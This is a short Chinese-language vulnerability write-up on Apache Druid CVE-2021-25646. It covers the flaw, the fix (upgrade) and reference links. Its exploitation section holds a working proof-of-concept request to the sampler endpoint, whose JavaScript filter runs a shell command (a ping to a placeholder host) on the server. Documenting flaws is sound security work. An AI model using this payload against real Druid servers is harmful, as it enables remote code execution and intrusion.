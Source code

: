 ### 一 漏洞描述
Apache Druid是一个实时分析数据库，旨在对大型数据集进行快速的切片和切分分析（“ OLAP ”查询）。  
德鲁伊最常用作数据库，以支持对实时摄取，快速查询性能和高正常运行时间很重要的用例。  
因此，Druid通常用于为分析应用程序的GUI供电，或用作需要快速聚合的高并发API的后端。德鲁伊最适合面向事件的数据。

Apache Druid 包括执行嵌入在各种类型请求中的用户提供的 JavaScript 代码的能力。  
此功能旨在用于高信任环境，默认情况下处于禁用状态。  
但是，在 Druid 0.20.0 及更早版本中，经过身份验证的用户可以发送特制的请求，强制 Druid 为该请求运行用户提供的 JavaScript 代码，而不管服务器配置如何。

### 二 漏洞利用
```
header = {
    'Accept': 'application/json, text/plain, */*',
    'Content-Type': 'application/json;charset=UTF-8'
}
path = "/druid/indexer/v1/sampler?for=filter"
post = {"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\\"isRobot\\":true,\\"channel\\":\\"#x\\",\\"timestamp\\":\\"2020-12-12T12:10:21.040Z\\",\\"flags\\":\\"x\\",\\"isUnpatrolled\\":false,\\"page\\":\\"1\\",\\"diffUrl\\":\\"https://xxx.com\\",\\"added\\":1,\\"comment\\":\\"Botskapande Indonesien omdirigering\\",\\"commentLength\\":35,\\"isNew\\":true,\\"isMinor\\":false,\\"delta\\":31,\\"isAnonymous\\":true,\\"user\\":\\"Lsjbot\\",\\"deltaBucket\\":0,\\"deleted\\":0,\\"namespace\\":\\"Main\\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('ping -c1 %s')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}
```

### 三 漏洞修复
升级

> 参考链接  
> https://blog.csdn.net/weixin_45883933/article/details/109725987  
> https://druid.apache.org/  
> https://github.com/apache/druid  
> https://nvd.nist.gov/vuln/detail/CVE-2021-25646
